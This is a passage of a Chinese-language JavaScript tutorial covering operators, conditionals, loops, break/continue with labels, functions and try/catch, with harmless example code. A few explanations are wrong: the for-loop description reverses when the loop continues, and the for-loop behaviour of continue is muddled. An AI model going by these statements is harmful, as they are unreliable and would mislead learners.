//  6 = 00000000000000000000000000000110
//  2 = 00000000000000000000000000000010
var a = 11 & 6;
document.write(a); // 2
```

这是一个按位右移的示例：

```javascript
// 这里是数字的 32 位表示
// 28 = 00000000000000000000000000011100
//  7 = 00000000000000000000000000000111
var a = 28 >> 2;
document.write(a); // 7
```

关于更多按位运算符的示例，请务必阅读附录 A 中的运算符章节。

# 组合运算符

最后一组主要操作是由算术运算符和字符串拼接运算符提供的。这些运算符有时被归为类，因为它们有一个共同特征：接受两个操作数并产生一个取决于操作数内容的第三值。这些运算符在本质上是组合的，有时被称为 `connubial`（结合）运算符。

下表包含了所有结合运算符的列表。



算术运算符（`+`、`-`、`*`、`/`、`%`、`++`、`--`、`-`）的行为与其他语言以及在数学表达式中的行为非常相似。在这种情况下，`+` 运算符是特殊的，因为它在处理字符串时会连接两个操作数产生一个取决于操作数内容的第三值。这些运算符是组合的，有时被称为 `connubial` 运算符。

`+` 运算符在处理字符串时，它会连接值：
```javascript
"hello" + " world" // "hello world"
```

## 特殊运算符

JavaScript 还提供了一些特殊的运算符，它们不属于上述任何类别。

### 条件运算符

条件运算符（`?:`）是 JavaScript 中唯一的三元运算符。它根据条件表达式的值返回两个值之一。语法为：`condition ? expr1 : expr2`。如果 `condition` 为 true，则返回 `expr1`；否则返回 `expr2`。例如：

```javascript
var status = (age >= 18) ? "adult" : "minor";
```

### 逗号运算符

逗号运算符（`,`）允许在一个语句中评估多个表达式，并返回最后一个表达式的值。例如：

```javascript
var a = (1, 2, 3); // a = 3
```

### delete 运算符

当你想从集合中删除一个元素时，请使用 `delete` 运算符。这也适用于删除对象的方法或属性（对象是 `Array` 的类型）。`delete` 运算符接受单个操作数，如果在调用时没有找到操作数中引用的对象，它将什么都不做。`delete` 操作的语法为：`delete expression`。

`expression` 应该返回集合中元素的引用，或者某个东西的方法或属性引用。

```javascript
myProperty = "Hello"; // 隐式创建一个全局属性
document.write(typeof myProperty + "<br />"); // "string"
delete window.myProperty;
document.write(typeof myProperty + "<br />"); // "undefined"
```

在第 3 章中，我讨论了 `undefined` 类型和 `null` 之间的区别。当标识符为 `undefined` 时，意味着它尚未被声明。对一个标识符使用 `delete` 运算符可以释放该属性占用的内存，并将标识符恢复到定义它之前的状态。

### 点 (.) 运算符

点运算符（或称“点表示法”）适用于包含方法或属性的对象。使用点表示法时，属性必须是属于该对象的有效 JavaScript 标识符。如果对象 `myObj` 有一个名为 `myProperty` 的属性，你可以使用点运算符来访问它：`myObj.myProperty`。

你也可以以这种方式将多个层次对象和属性连接起来：

```javascript
document.body.innerHTML = "test";
```


在前面的示例中，你使用点表示法访问了 `document` 的 `body` 元素，再次访问了 `body` 标签的 `innerHTML` 属性。

### in 运算符

`in` 运算符告诉我们属性是否存在于对象（或数组）中。它期望两个操作数，语法如下：`theProp in myObject`。

以下是 `in` 运算符的一些示例：

```javascript
var babyNames = ["Micheal", "Ryan", "Matea", "Mitchell", "Farris", "Cia", "Larry"];

// 下一个属性虽然没有显式定义，但是所有
// 数组的自动成员
document.write("length" in babyNames); // true

// 示例将返回 false，因为无法通过输入
// babyNames.Ryan 来访问它
document.write("Ryan" in babyNames); // false

document.write(1 in babyNames);    // true 因为 babyNames[1] == "Ryan" 所以它存在

var myObject = {apple:true, funny:false};
document.write("apple" in myObject);  // true
```

### instanceof 运算符

简单来说，`instanceof` 运算符确定一个对象是否是另一个对象的实例。语法如下：`objectName instanceof objectType`。

在下面的示例中，你使用该运算符来证明你的对象确实是一个 `Date()` 对象实例。

```javascript
var theDay = new Date(1980, 3, 10);

if (theDay instanceof Date) {
    // 这将会执行
    document.write("theDay is a Date object. <br />");
}

if (theDay instanceof Object) {
    // 这将会执行
    document.write("theDay is also an intance of the Object object. <br />");
}
```

### new 运算符

元运算符 `new` 的目的是通过在源对象本身上调用构造函数来创建对象的新实例。它使用以下通用语法：`objectName = new objectType([params])`。

`objectType()` 操作数必须是一个构造函数，传递给它的任何参数都是完全可选的。下面的示例以高度简化的方式说明了如何使用 `new` 运算符创建自定义对象的实例。如需更深入的解释，请参见第 6 章。

```javascript
var Animal = function(thename) {
    this.fur = true;
    this.scales = false;
    this.name = 'Generic';
    if (thename) {
        this.name = thename;
    }
};

var cat = new Animal('cat');
var unknown_animal = new Animal();     // 默认名称为 'Generic'

document.write(cat.name); // "cat"
document.write(unknown_animal.name);    // "Generic"
```

### typeof 运算符

当你想知道一个对象的类型时，使用元运算符 `typeof`。它接受一个操作数，语法如下：`typeof myObject`。

它将返回一个包含对象类型的小写字符串。自定义对象继承自全局类型 "object"，并将具有该类型。在下面的代码段中可以找到各种示例：

```javascript
var var1 = undefined;
var var2 = null;
var var3 = "Test";
var var4 = 12345;
var var5 = {a:23,b: '3242' };
var var6 = true;

document.write(typeof var1 + "<br />"); // undefined
document.write(typeof var2 + "<br />"); // object
document.write(typeof var3 + "<br />"); // string
document.write(typeof var4 + "<br />"); // number
document.write(typeof var5 + "<br />"); // object
document.write(typeof var6 + "<br />"); // boolean
document.write(typeof var7 + "<br />"); // undefined
```

> 还有另一种检查对象或变量类型的方法，即使用 `.constructor` 属性。在第 10 章我将更详细地探讨这一点。

### void 运算符

当你想要评估一个表达式但强制要求结果为 `undefined` 时，你可以使用元运算符 `void`。在 HTML URI 用用例之外，它的用途有限。例如，如果你想创建一个执行某些 JavaScript 而不是重定向页面的超链接，你可以使用 `javascript: void()` 语法来评估表达式并将其结果置空：

```html
<a href="javascript:void(document.body.style.backgroundColor= ' #00FF00 ');">点击此处使页面变绿</a>
```

如果你没有对该表达式使用 `void()`，它将用从表达式返回的值替换整个页面。然而，这通常不是创建 JavaScript 按钮的方法，而且由于其降级性差，通常不被推荐这样做。

## 运算符优先级和结合性

就像数学中一样，编程语言中的运算符具有不同的优先级级别。对于像 `10-4/3` 这样的表达式，将其评估为 `(10-4)/3` (2) 还是 `10-(4/3)` (8.67) 是有区别的。在这种情况下，你依靠*优先级*规则来决定如何评估它。接下来的表格描述了不同运算符具有的优先级。

 

相反，对于表达式 `10-4+3`，将其评估为 `(10-4)+3` (9) 还是 `10-(4+3)` (3) 也是有区别的。因为运算符 `-` 和 `+` 具有相同的优先级，在没有括号来分组表达式部分的情况下，你必须完全依靠*结合性*规则来决定如何评估它。

结合性是指运算符在优先级相同时它们被评估的顺序。结合性有两种选择：*从右到左*和*从左到右*。在 `10-4+3` 示例中，`-` 和 `+` 的结合性是从左到右的，因此 `10-4` 部分将在 `4+3` 之前被评估。

# JavaScript 语句

虽然表达式和运算符是任何编程语言的关键组成部分，但它们本身并不起作用。软件的所有内部运行机制由成千上行代码组成，几乎所有的它们都是*语句*，包括以下所有的示例：

```javascript
if (a == 1) {}
return 100;
var b;
```

以下是各种主流浏览器版本支持的语句列表。此列表在附录 A 中有更详细：

 

语句不需要包含上述列表中的任何关键字。它可以是简单的变量赋值：

```javascript
myVar = 10 * 100;
myOtherVar = "Hello " + "World";
```

它们也可以是包含多个较小语句和表达式的复杂复合结构，如下例所示：

```javascript
if (function(){return Math.random()*100;}() > 50) {
    alert('我们正要告诉你这个数字有多大..');
    alert('数字很大');
}
```

此示例中的复合语句实际上是 `if` 语句，因为它包含一个包含其他语句的语句块（`{ }`）。我将在下一节中讨论条件 `if` 语句的使用。

## 条件语句

在编程中，你经常使用`条件语句`来根据特定条件是否满足来选择性地执行程序的某部分。你已经探索了条件运算符（`?:`）的使用，现在你将查看实现条件行为的其他方法。

### if .. else

`if` 语句是一种条件结构，它根据表达式的结果来选择性地执行代码。构建 `if` 语句有两种方法。对于最基本的类型，语法如下：

`if (expression)`
    statement
else
    statement

你可以选择性地使用代码块操作操作符（`{ }`）来创建一个复合语句：

```javascript
if (expression) {
    [statement]
    [...]
} else {
    [statement]
    [...]
}
```

当使用简单形式时，只有表达式后的第一个语句会被求值。看这个示例：`if (userAge == 0) var userAge = 1; alert("You can’t be 0 years old!");`。

在这种情况下，如果 `userAge` 等于零，则只有表达式后的第一个语句会被执行。`alert()` 将执行，但它与表达式 `userAge == 0` 之间没有任何联系。如果你想确保它是 `if` 语句的一部分，你需要将其放置在如下所示的块中：

```javascript
if (userAge == 0) {
    var userAge = 1;
    alert("You can’t be 0 years old!");
}
```

与其他语言不同，求值表达式周围的括号是必须的。不过，你可以自由使用括号来处理更复杂的表达式，例如：

```javascript
// 这个条件检查用户是否在 0 到 10 岁之间，或者年大于 80 岁
if ((userAge > 0 && userAge < 10) || (userAge > 80))
    alert("You’re either very young or very old!");
else {
    alert("Your age is right around the middle.");
}
```

在这个示例中，你还使用了 `else` 关键字，当 `if` 表达式中定义的条件不满足时，它将执行。`else` 关键字也可以支持块（`{ }`），但它是可选的。如果将其与另一个 `if` 结合使用，`else` 语句还可以多次链在一起。例如，如果你想在一个复合语句中检查多个年龄范围，你可以这样做：

```javascript
if (userAge > 0 && userAge < 13)
    alert("You’re either very young or very old!");
else if (userAge >= 13 && userAge < 20) {
    alert("You are in your teens.");
} else if (userAge >= 20 && userAge < 30) {
    alert("You are in your twenties.");
} else {
    alert("You’re getting up there ;).");
}
```

`else if` 语句在 JavaScript 中并不是一种特殊的语句。它仅仅是一个 `else` 语句与一个 `if` 语句的组合。这种编写多个 `case if` 条件的方法比使用下例所示多个嵌套块的替代方案要简单清晰得多：

```javascript
if (userAge > 0 && userAge < 13) {
    alert("You’re either very young or very old!");
} else {
    if (userAge >= 13 && userAge < 20) {
        alert("You are in your teens.");
    } else {
        if (userAge >= 20 && userAge < 30) {
            alert("You are in your twenties.");
        } else {
            alert("You’re getting up there ;).");
        }
    }
}
```

### switch

如果你发现自己编写了多个 `else if` 语句，并且它们都在检查同一个变量，你可以通过使用 `switch` 语句来简化代码。通用语法如下：

```javascript
switch (expression) {
    case label1:
        statements1
        [break;]
    case label2:
        statements2
        [break;]
    [...]
    default:
        statements_def
        [break;]
}
```

表达式会被求值并与每个 case 进行比较。当其中一个 case 与表达式中包含的值匹配时，就会执行该部分代码。如果没有找到有效的 case，`switch` 将寻找 `default` case。如果找到了，则改为执行该部分代码。如果没有找到 default case，则所有 case 都不会执行，程序执行在 `switch` 之外继续。通常，你将 `default` case 放在所有 case 的最后，但它位于块内的任何位置。遗憾的是，使用 `switch` 你只能检查离散的值，而不能与值范围进行比较。例如，你可以检查变量 `x` 是否等于 1、2 或 3，但你无法编写一个检查 `x` 是否大于 1 且小于 3 的语句。

每个 case 末尾的可选 `break` 语句确保在执行完 case 内的语句后，程序执行会在 `switch` 之外恢复，但这并不是要求的。`switch` 语句直到 ECMAScript v3 才正式成为语言的一部分，但在 JScript 3.0 和 JavaScript 1.2 中已经可用。直到 Netscape 4.02 和 IE 4.0 它才得到了广泛支持。

在下面的示例中，你使用 `switch` 语句通过字符串比较来检查物品的价格：

```javascript
function price(item) {
    switch (item) {
        case "comic book":
            return 3.41;
        case "milk 2L":
            return 4.59;
        case "apple":
            return 0.39;
        case "potato chips":
            return 1.29;
        default:
            return 0;
    }
}

document.write("$" + price("apple"));
```

## 循环语句

这三个参数描述了循环发生的次数，并定义了循环内部使用的迭代器。初始化部分（initializer）描述了将使用哪个变量作为迭代器。通常在这里使用一个变量声明（例如，`var myIterator = 0;`）。在下一个参数中，`test_condition`（测试条件）是一个每次循环执行前都会求值的表达式。如果表达式为假，循环继续；如果为真，循环终止。第三个参数是 `increment_expression`（增加表达式），它指定了初始化部分中定义的迭代器变量如何增加。这并不非要是 `+1` 增加。你可以自由地将迭代器增加 `2`、`10`、`1000` 或 `-1000`，或者使用非非迭代。

在下面的示例中，我使用 `for` 循环显示了一个乘法表：

```javascript
// 一个乘法表
for (var myLoop = 0; myLoop <= 10; myLoop++) {
    document.write("10x" + myLoop + " = " + (10*myLoop) + "<br />");
}
```

这将输出以下内容：
10x0 = 0
10x1 = 10
10x2 = 20
10x3 = 30
10x4 = 40
10x5 = 50
10x6 = 60
10x7 = 70
10x8 = 80
10x9 = 90
10x10 = 100

`for` 循环有趣的地方在于，这是极少数几个可以使用逗号运算符来为语句添加细节的地方。`initializer` 和 `increment_expression` 都可以包含多个连接在一起的语句，如下例所示：

```javascript
// 多个迭代器
for (myNumber = 0, myOtherNumber = 10; myNumber <= 10; myNumber++, myOtherNumber--) {
    document.write(myNumber + "*" + myOtherNumber + " = " + (myNumber*myOtherNumber) + "<br />");
}
```

这段代码段将输出以下文本：
0*10 = 0
1*9 = 9
2*8 = 16
3*7 = 21
4*6 = 24
5*5 = 25
6*4 = 24
7*3 = 21
8*2 = 16
9*1 = 9
10*0 = 0

构建 `for` 循环或任何类型的循环时需要注意的大事是，`test_condition` 在每次迭代时都会被求值，因此出于性能考虑，你应该尽可能减少在这里的处理量。在第 25 章中，我将建议最大化 `for` 循环性能的方法。

### for .. in

更高级的循环类型是 `for .. in`。这种循环的目的是遍历 `Object` 或 `Array` 中的枚举属性。这包括任何枚举值（`Array` 的元素）以及添加到 `Object` 或 `Array` 的任何自定义属性，但不包括任何内置方法或属性，例如所有 `Objects` 继承的 `valueOf()` 方法。其通用语法如下：

```javascript
for (variable in object)
    statement;
```

与任何其他循环一样，`statement` 可以是一个代码块（`{}`），正如在后的示例中所示。当循环执行时，`object` 内部由 `variable` 描述的属性名将取代 `variable`，并可以在循环内部访问它。遗憾的是，这些元素的迭代顺序无法控制或容易预测，因此如果需要特定的顺序，它就没那么用。事实上，在大多数浏览器中，项目将按照它们被添加的顺序提取。基于 `V8` JavaScript 引擎的当前版本 Google Chrome 在某些情况下已知会返回不同的顺序。然而，这个问题正在被跟踪中。

```javascript
// 使用 for .. in 结构遍历数组和对象的元素
var animals = ["cow", "horse", "cat", "pig", "rabbit", "fish"];

for (theanimal in animals) {
    document.write(theanimal + "-" + animals[theanimal] + "<br />");
}

document.write("-----------<br />"); // 隔开页面上的两个循环

var myObject = {apple:100, truthiness:false, astring: 'hello'};

for (item in myObject) {
    document.write(item + "-" + myObject[item] + "<br />");
}
```

此示例将产生以下输出：
0-cow
1-horse
2-cat
3-pig
4-rabbit
5-fish
-----------
apple-100
truthiness-false
astring-hello

在实践中，这是遍历自定义 `Objects` 和 `Arrays` 中所有项但非 `DOM` 元素的好方法。原因是取决于浏览器及其版本，你会得到不同的结果。如果这没有问题，`for .. in` 是一个很好的选择。例如，如果你执行以下代码（在 `DOM` 元素上使用 `for .. in`），你将得到一组非常特殊的结果，反映了 Internet Explorer `DOM` 的独特性：

```html
<html>
<body>
    <a href="www.cnn.com" id="hreflink">Hello</a><br />
    <script>
        var myLink = document.getElementById("hreflink");
        for (info in myLink) {
            document.write(info + "-" + myLink[info] + "<br />");
        }
    </script>
</body>
</html>
```

[图 4-4] 显示了你在 Internet Explorer 中看到的内容。在 Firefox 中，你会得到不同的结果，如 [图 4-5] 所示。**注意，`for .. in` 循环仅在 JScript 5.0 版本中引入，这意味着它仅在 Internet Explorer 5.0 及更高版本可用。**

### for each .. in

另一种基于 `for` 关键字构建且类似于 `for .. in` 循环的循环结构是 `for each .. in` 循环。它的原理与 `for .. in` 相同，但它不是遍历对象的属性名，而是遍历属性值。通用语法为：

```javascript
for each (variable in object)
    statement;
```

以下是在自定义对象上使用 `for each .. in` 的示例：

```javascript
var myObject = {apple:100, truthiness:false, astring: 'hello'};

for each (item in myObject) {
    document.write(item + "<br />");
}
```

这将产生以下输出：
100
false
hello

> **`for each .. in` 循环结构目前仅由包含 JavaScript 1.6+ 的 Mozilla 变体支持。这包括 Firefox 1.5+，但不包括 Netscape、Webkit、Internet Explorer 或 Chrome。它也不是官方 ECMA 标准的一部分。**

### while

一种非常简单高效的循环结构是 `while`，因为它持续循环直到测试条件不再为真。其语法如下：

```javascript
while (expression)
    statement
```

与 `do .. while` 循环不同，如果第一次遇到时为假，`while` 循环将不会执行。这是因为表达式是在每次迭代开始时测试的，而不是结束。以下是一个简单的 `while` 循环示例：

```javascript
// 会执行四次的 while 循环
var loopVar = 0;

while (loopVar < 4) {
    loopVar++;
    document.write("loopVar: " + loopVar + "<br />");
}
```

这将输出：
loopVar: 1
loopVar: 2
loopVar: 3
loopVar: 4

### do .. while

另一种简单高效的循环结构是 `do .. while`，它持续循环直到测试条件不再为真。其语法如下：

```javascript
do
    statement;
while (expression);
```

`do .. while` 循环在某种程度上与基础 `while` 循环相反，因为它只在循环结束时才测试表达式，这意味着即使表达式为假，它也保证至少执行一次。以下是一个 `do .. while` 循环的示例：

```javascript
// do .. while 循环的示例
var loopVar = 0;

do {
    loopVar++;
    document.write("loopVar: " + loopVar + "<br />");
} while (loopVar < 4)
```

这将创建以下输出：
loopVar: 1
loopVar: 2
loopVar: 3
loopVar: 4

## 循环控制语句

有三个语句与循环结构的控制密切相关，但它们本身并不是循环。这些语句是 `break`、`label` 和 `continue`。它们允许你不仅可以中断循环的执行，还可以中断其他类型的块语句的执行。

从 `break` 开始是有逻辑的。如果你想提前退出循环或 switch 结构，可以使用 `break` 语句来实现。`break` 的基本语法为：`break [label];`。例如，你可以用它来中止一个 `for` 循环，如下所示：

```javascript
// Use the break statement to abort a for loop
for (var i = 0; i < 10; i++) {
  document.write(i + "<br />");
  if (i == 3)
    break;
}
```

这将产生以下输出：
0
1
2
3

当不带可选的 label 参数使用时，`break` 语句只会中断当前的父级循环或 `switch`。如果层级中还有其他结构，它们将不受影响地继续。

在讨论 `switch` 语句时，你已经了解过标签（labels）。`case` 和 `default` 关键字都是标签。你可以使用任何有效标识符为 JavaScript 中的任何语句标记标签，但它们最常用于标识循环，以便跳出特定的循环并继续其他循环。标签的语法为：`label : statement;`。

在下面的示例中，你使用标签标识两个循环（`bigloop` 和 `smallerloop`），并使用 `break` 语句选择性地中止其中一个：

```javascript
// Use label and break to control the execution of loops
bigloop:
for (var i = 0; i < 10; i++) {
  smallerloop:
  for (var x = 0; x < 10; x++) {
    document.write("i:" + i + " x:" + x + "<br />");
    if (x == 3)
      break smallerloop;
    if (i == 2)
      break bigloop;
  }
}
```

发生的情况是：较小的循环每次遇到 `x == 3` 时都会中止，而较大的循环在第一次等于 `2` 时就会中止。因此，输出如下：
i:0 x:0
i:0 x:1
i:0 x:2
i:0 x:3
i:1 x:0
i:1 x:1
i:1 x:2
i:1 x:3
i:2 x:0

我已经说过，标签不仅可以与循环配合使用，但这是它们最常见的用法。在使用带有标签的 `break` 语句时，唯一的要求是该标签必须是 `break` 的父级语句。它不能位于程序的其他不相关的部分。看下面的示例：

```javascript
// Using a break statement in an IF block
var a = 10;

myspecialIf:
if (a > 5) {
  document.write("We're about to break this if statement. <br />");
  break myspecialIf;
  document.write("This will never be seen.");
}

document.write("This will always be seen.");
```

尽管我跳出的语句不是循环，我仍然能够引用标签 `myspecialIf` 并跳出该块。由于这个原因，第二个 `document.write("This will never be seen.")` 永远不会被写入页面。

循环的另一个有用语句是 `continue`。与 `break` 类似，`continue` 允许你控制循环，但它会在新的迭代中重启循环而不是跳出。像 `break` 一样，你可以单独使用 `continue` 或配合标签使用。`continue` 的语法与 `break` 相似：`continue [label];`。

不带标签使用时，它会自动引用顶层的循环或 `switch`。与 `break` 不同，它只能在以下结构中使用：`while`、`do .. while`、`for`、`for .. in` 和 `for each .. in`。根据它所在的循环类型，它的行为也略有不同：
- 在 `while` 循环中，它跳转到顶部，重新测试条件，如果条件为真则继续；否则中止循环。
- 在 `do .. while` 循环中，它跳转到底部，重新测试条件，如果条件为真（在顶部）则继续。
- 在 `for` 循环中，如果跳转到顶部，测试条件，如果条件为假，它会执行更新表达式并继续循环。
- 在 `for .. in` 或 `for each .. in` 循环中，它将跳转到系列中的下一个属性。

`continue` 的一个常见用法当 `Array` 中的某个元素不符合某些目的时跳过它，如下例所示：

```javascript
// Skipping over an array element in a for loop using continue
var myArray = ["a", "b", "cat", "dog", "tree", "e", "house"];

document.write("Some of the longer items in the array are: <br />");

for (var i = 0; i < myArray.length; i++) {
  if (myArray[i].length == 1)
    continue;
  document.write(myArray[i] + "<br />");
}
```

在这个示例中，我跳过了 `Array` 中长度只有一个字母的项。输出是：
Some of the longer items in the array are:
cat
dog
tree
house

## 函数语句

有两个语句与 JavaScript 中方法或函数的使用：`function` 和 `return`。前者 `function` 定义了 JavaScript 函数的存在。通用语法为：

```javascript
function name([param] [, param...]) {
    statements
}
```

这并不是在 JavaScript 中定义函数的唯一方法。你也可以通过使用 `function` 构造函数（`var myFunction = new Function();`）或使用 `function` 运算符（`var myFunction = function(){};`）来实现。

你还有一个从函数返回值的语句：`return`。与许多语言不同，没有必要提前定义函数是否会返回值，或者返回值的类型是什么。你只需要使用以下语法调用 `return` 表达式：`return [expression];`。

表达式将在语句求值时进行求值，函数将立即终止。如果在函数的执行过程中使用了 `return`，函数的执行将立即终止。在接下来的示例中，你创建了一个返回值的简单平方函数：

```javascript
function squareit(x) {
  return x*x;
}

document.write(squareit(10)); // "100"
```

当没有传递返回值，或者在没有表达式的情况下进行返回时，返回值等于 `undefined`。

## 异常处理语句

某些语句专门用于创建、抑制和捕获异常。异常是包含程序程序问题信息的事件。如果你做了错误操作（例如除以零或使用无效语法），解释器会自动“抛出”异常。你也可以使用相同的系统抛出自己的自定义异常，然后你可以以有意义的方式捕获并显示给用户，或者仅用于帮助你调试程序。

### throw

在 JavaScript 中，与其他语言一样，你使用一个名为 `throw` 的语句来创建自己的异常。当你抛出异常时，可以传递任意数量的信息，这些信息将在你决定捕获错误的地方可用。`throw` 语句的语法如下：`throw expression;`。

表达式是你的错误值。它可以是任何对象类型，包括简单的字符串：`throw "There was a problem!"` 甚至是复杂的对象：`throw {problem:true, info:"There was a problem!", when:new Date()}`。JavaScript 有它自己的 `Error` 对象，非常方便使用，以及几个 `Error` 对象的子类，它们告诉我们更多关于异常性质的信息。我将在第 24 章详细介绍这些内容。现在你只需要知道，当 JavaScript 抛出自己的错误或你抛出自定义异常时，解释器会停止正常执行并跳转到当前作用域内的任何异常处理程序。如果没有找到，它将移动到调用堆栈（call stack）中调用当前函数的代码。如果那里也没有，它将继续向上移动堆栈直到找到一个。如果一个都没有找到，则该异常被认为已经泡（bubbled）到了表面，并向用户报告错误。**虽然 JavaScript 一直都有异常，但 `throw` 语句直到 ECMAScript 第 3 版才成为语言的一部分，并现在 Gecko 1.7+（Netscape 5 及以上，以及 Firefox 1.0+）、Internet Explorer 5.0+ 以及 Opera 3.0+ 中实现。`throw` 语句在 Chrome 和大多数现代解释器中也可用。**

### try .. catch .. finally

当我说你可以 `handle` 异常时，我的意思是你可以在异常发生时“捕获”（trap）它们，而不是让它们冒泡到表面并报告给用户，你可以选择抑制它们或采取其他行动来纠正问题。你通过使用 `try .. catch .. finally` 结构来处理异常。许多其他语言也支持类似，包括 `C++`、`Java` 和 `C#`。其通用语法如下：

```javascript
try {
    tryStatements
} catch(exception){
    catchStatements
}
finally {
    finallyStatements
}
```

在 JavaScript 1.5 (Netscape 6+ 和 Firefox 1+) 中增加了对多个 catch 子句的额外支持，以及条件 catch 子句。这允许开发者构建仅在特定情况下才触发的 catch 子句。到目前为止，这并不是官方 ECMAScript 规范的一部分，也没有被其他解释器通用支持。这里描述的标准语法仍然被所有现代浏览器支持，如果担心兼容性，则应该使用它。

`tryStatements` 内部的代码是正在处理异常的 own 块。如果发生异常，`try` 块中的执行将立即终止，并开始执行 `catch` 子句。只有当 `try` 块发生异常时，`catch` 子句才会执行。可选的 `finally` 块保证在任何情况下都会执行，无论是否发生异常，但如果发生了，它将在最后执行，即在 `catch` 块完成后执行。`catch` 子句中的异常是你必须定义的标识符，以便你访问异常中的信息。

`finally` 块不是必须的，但如果你有无论 `try` 块中发生什么都可能想要执行的“清理”代码，它就会很有用。例如，假设你用 JavaScript 写了一个文字处理程序。你可以将所有的应用程序代码封装在一个大的 `try` 块中，以防程序执行期间某处出现错误。如果发生了，你可以使用 `finally` 块来强制将文档保存回服务器作为备份。在下面的示例中，你使用 `try .. catch .. finally` 在尝试访问一个不存在的对象的方法时优雅地报告错误：

```javascript
// An example of the try catch finally
document.write("Here is the contents of your page: <br />");

try {
    for (var i = 5; i > -5; i--) {
        document.write(document.blody.innerHTML);
    }
} catch (err) {
    document.write("There was an error: " + err.message + "<br />");
} finally {
    document.write("You should see this text regardless.");
}
```

在 Firefox 中，这将输出以下内容：
Here is the contents of your page:
There was an error: TypeError: document.blody is undefined
You should see this text regardless.

`try .. catch` 有趣的地方在于，它在复杂的调用栈中工作得非常好。如果你愿意在调用栈的最顶端放置一个处理器，你就不需要在整个文档中到处编写大量的异常处理器（虽然不推荐，但你可以这样做）。例如，看下面的代码段：

```javascript
// How the call stack works with try catch
function throwSomeError () {
    throw "My Custom Error!";
}

function masterFunction() {
    throwSomeError();
}

try {
    masterFunction ();
} catch(e) {
    document.write(e.toString());
}
```

在这个示例中，我有两个函数：`throwSomeError()` 和 `masterFunction()`。在代码段底部附近，我调用了 `masterFunction()`，它又调用了 `throwSomeError()`。在这里，通过 `throw`，我在一个甚至没有 `try .. catch` 处理器的函数中创建了一个异常。然而，因为我在对 `masterFunction()` 的初始调用周围放置了处理器，解释器能够向上爬调用栈并找到它，因此它被优雅地处理了。如果运行此代码段将生成以下输出：My Custom Error!

# 杂项语句

JavaScript 中还有几个足够重要的提、但似乎不属于其他类别的语句。这些是 `var` 和 `with`。

## var

在第 3 章介绍变量时，我已经讨论过 `var` 语句了。你学了它被用于显式地声明一个或多个变量，你也可以在相同的类型中实例化它们。回顾一下，`var` 的语法如下：`var identifier [ = value] [, identifier2 [ = value2]] [...];`

以下是不同方式使用 `var` 的示例：

```javascript
var myVar;
var myInt = 19;
var myMath = 10 + myInt;
var firstName = "Alexei", lastName = "White";
